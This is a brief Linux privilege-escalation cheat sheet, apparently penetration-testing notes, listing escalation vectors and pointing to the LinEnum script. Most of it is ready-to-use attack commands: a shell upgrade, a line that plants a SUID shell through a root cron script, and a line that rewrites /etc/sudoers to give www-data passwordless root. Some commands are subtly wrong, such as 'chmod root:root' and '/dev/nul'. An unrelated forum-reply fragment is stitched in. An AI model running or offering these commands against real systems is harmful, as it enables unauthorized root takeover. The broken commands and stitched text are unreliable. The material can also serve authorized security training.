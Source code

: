 https://github.com/rebootuser/LinEnum


Linux Privilege escalation
==========================

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process.

***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:

## Double charcters

I'm guessing both terminals had stty echo, so you probably needed to Ctrl-Z and stty -echo on your local terminal and bg to get back to the remote shell.

**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

3. Check the programs avilable in the machine

which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/nul

**3. Using vulnerable cronjob running in root**

echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh

**4. Modifying sudoers file and provide nopasswd access for a low privileged user**

echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update

**5. Command to writable directories in the restrictive shell**

find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;

